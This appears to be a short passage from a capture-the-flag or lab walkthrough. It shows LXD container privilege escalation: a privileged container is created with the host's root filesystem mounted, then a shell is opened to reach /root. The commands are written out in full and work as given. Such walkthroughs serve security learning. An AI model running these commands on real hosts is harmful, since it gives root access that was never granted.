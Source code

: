 `/snap/bin/lxd init`

![](images/ip6.png)

Then you can run the following:

```
/snap/bin/lxc image import ./<container name> --alias exploit
/snap/bin/lxc init exploit ignite -c security.privileged=true
/snap/bin/lxc config device add ignite exploit disk source=/ path=/mnt/root recursive=true
/snap/bin/lxc start ignite
/snap/bin/lxc list
/snap/bin/lxc exec ignite /bin/sh
cd /mnt/root/root
```

![](images/ip7.png)

